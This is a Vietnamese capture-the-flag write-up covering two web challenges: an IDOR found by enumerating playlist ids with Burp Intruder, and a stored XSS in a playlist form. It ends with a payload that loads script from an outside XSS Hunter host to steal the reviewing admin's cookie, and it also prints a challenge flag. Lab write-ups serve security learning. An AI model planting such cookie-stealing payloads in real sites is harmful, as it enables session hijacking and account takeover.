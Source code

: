 Đầu tiên, mình sẽ tạo một playlist mới để xem playlist mình mới tạo có `id` là bao nhiêu.

![image](https://hackmd.io/_uploads/H15tMONmR.png)

Và nó có `id=16` vậy là trong trang web có tổng số 16 playlist. Mà khi truy cập vào playlist có `id=11` thì trạng thái của nó lại là `private`. Vậy mình có thể kết luận rằng chức năng "View playlist" có chứa lỗ hổng IDOR.

![image](https://hackmd.io/_uploads/r1OFmuNQC.png)

### Exploit:

Mình sẽ sử dụng tính năng Intruder trong BurpSuite để tìm kiếm playlist có chứa flag.

![image](https://hackmd.io/_uploads/Hyx_V_NmR.png)
![image](https://hackmd.io/_uploads/ry4tE_VmR.png)
![image](https://hackmd.io/_uploads/HkdTVOVQA.png)

<div class="alert alert-success">
    <strong>🚩FLAG 2:</strong> CHH{IDOR_vUlN3r4b1Lit13S_4r3_ea5Y_t0_f1nD}
</div>

## K08FE FLAG 03

![image](https://hackmd.io/_uploads/S1OXB_EmR.png)

> Flag 3 nằm trong Bio của tài khoản admin. Hãy tìm cách đăng nhập tài khoản admin và lấy Flag.

Chức năng "Create playlist" sẽ cho phép người dùng tạo một playlist và đăng nó ở chế độ `public` hoặc `private`. Khi playlist được đăng ở chế độ `public` thì admin sẽ vào review playlist đó. Ở trường hợp này, mình có nghĩ tới lỗ hổng XSS dùng để đánh cắp cookie của admin.

### Enumeration:

Mình sẽ tạo một playlist ở dạng public với `playlist_name=<script>alert(1)</script>` và `playlist_description=<script>alert(1)</script>`.

![image](https://hackmd.io/_uploads/rJxLwdE7C.png)

Và đây là kết quả khi mình chuyển sang trang "Playlist".

![image](https://hackmd.io/_uploads/ByEqw_4Q0.png)

Đến đây thì mình đã chắc chắn rằng chức năng "Create playlist" có chứa lỗ hổng XSS.

### Exploit:

Với challenge số 3 này, mình sẽ sử dụng một trang web có tên là [XSS Hunter](https://xsshunter.trufflesecurity.com/). Đại loại là khi admin vào review playlist của mình thì nó sẽ tự động tạo một request và gửi kết quả tới trang XSS Hunter từ đó mình có thể lấy được cookie của admin.

Payload cho playlist_name và playlist_description: `"><script src="https://js.rip/3a2ry34fas"></script>`.
